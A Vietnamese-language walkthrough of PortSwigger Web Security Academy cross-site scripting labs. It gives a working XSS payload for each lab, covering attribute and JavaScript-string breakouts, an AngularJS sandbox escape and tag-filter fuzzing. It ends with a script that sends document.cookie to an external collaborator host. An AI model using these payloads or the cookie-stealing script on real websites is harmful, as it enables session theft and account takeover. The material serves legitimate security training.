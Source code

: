 1. https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

2. https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

3. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink\
Dùng `document.write` để input đầu vào, payload: `"><svg onload=alert(1)>`

4. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink\
Dùng `innerHTML` để input đầu vào, payload: `<img src=1 onerror=alert(1)>`

5. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink\
Dùng `href` để gắn url cho `returnPath`:\
![alt text](image-1.png)\
![alt text](image-2.png)

6. DOM location.hash: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event\
![alt text](image-3.png)\
`<iframe src="https://0a4e0024041585a782ae9cac005d0018.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

7. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded\
Bị encode `<>` nên ta không tìm cách thoát ra tag mà sẽ thêm vào attribute:\
Payload: `"onmouseover="alert(1)`

8. Store XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded\
Vì bị encode `"` nên ta không thoát `href` mà sẽ thay bằng 1 cách để thực hiện javascript ngay trên URL:\
Payload: `javascript:alert(1)`

9. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded\
![alt text](image-4.png)\
Ta thấy input bị encode khi đưa vào HTML nhưng ta để ý nó lại đưa trực tiếp vào ` var searchTerms = 'abc';` nên ta tiêm thằng vào đây để thực hiện JS: `'; alert(1); '`

10. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element\
Nhập ngẫu nhiên input ta thấy hiển thị input ở dưới:\
![alt text](image-5.png)\
Đọc code ta thấy, nếu chọn trong các store có sẵn nó sẽ hiển thị, hoặc cũng có thể nhập store đầu vào:\
![alt text](image-6.png)\
Payload: `</select><img src=1 onerror=alert(1)>`

11. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression\
Ở đây ta không thể dùng `<>` nên ta nghĩ đến 1 phương án khác, khi dùng 1 framework sẽ có 1 cách thực thi Javascript khác nhau, ở AngularJS có `ng-app` và ta sẽ dùng payload: `{{$on.constructor('alert(1)')()}}`

12. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected\
Đọc code ta thấy file `resources/js/searchResults.js` dùng eval để xử lí đầu vào search:\
![alt text](image-7.png)\
Với input `"abc"` hàm đã xử lý trả về JSON và dùng `\` để thoát dấu ngoặc kép `"`:\
![alt text](image-8.png)\
Nhưng lại không thoát dấu `\` nên ta có thể sử dụng payload: `\"-alert(1)}//`\
![alt text](image-9.png)

Giair thích: với dấu `"` hệ thống sẽ chèn `\` vào trước, và vì đầu vào ta có 1 dấu `\` nên 2 dấu `\\` cạnh nhau không dùng để loại bỏ `"` nữa nên đã có thể đóng được đối tượng search, từ đó ta thêm hàm `alert()` và rồi comment `//` đoạn cuối.

13. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored\
Ở phần hiển thị các comment ta thấy file: `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`\
![alt text](image-10.png)\
File này dùng hàm `replace` để xóa các kí tự `<` và `>` nhưng lỗ hổng của hàm này là chỉ replace các kí tự đầu tiên được tìm kiếm nên ta có payload: `<><img src=x onerror=alert(1)>`

14. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked\
Thử với `<script>alert('1');</script>` thì nhận được: `"Tag is not allowed"` và nhiều tag khác\
Dùng `https://portswigger.net/web-security/cross-site-scripting/cheat-sheet` để tạo payload dùng tất cả các tag, đưa vào intruder:\
![alt text](image-11.png)\
![alt text](image-12.png)\
Dùng `body`, tạo payload với attribute:\
![alt text](image-13.png)\
![alt text](image-14.png)\
*Hoặc nếu lười hơn bạn có thể copy tất cả payload để thử.*\
Tiếp tục tạo payload gửi victim: `<iframe src="https://id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width=1>`

15. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked\
Bài này block hết tất cả tag ở bài trước, ta vẫn thử fuzzing bằng payload và nhận được khá nhiều request có 200 nhưng lại không thể `alert()` được dù vẫn thực hiện tag đó, chỉ có trường hợp là: `<a2 onfocus=alert(1) autofocus tabindex=1>` thì có thể `alert` nên ta dùng để viết payload gửi victim:``<script>
location= 'https://0af4001203d37e4280f56cba00c600af.web-security-academy.net/?search=%3caudio2%20onfocus%3dalert(document.cookie)%20autofocus%20tabindex%3d1%3e';
</script>``

16. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed\
Dùng intruder tương tự tìm kiếm tag và event hợp lệ, payload: `<svg><animatetransform+onbegin%3Dalert(1)>`

17. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag\
Tìm hiểu về canonical link tag ta biết có thể dùng phím ấn để gọi lệnh Javascript, payload: `https://0ab60079038ae8b88043080f0096000e.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`

18. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped\


Lab: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies\
    ```js
    <script>
        fetch('https://ebty5bf18db9t8dai0aew74c83eu2lqa.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
        });
    </script>
    ```
    ![alt text](image-15.png)

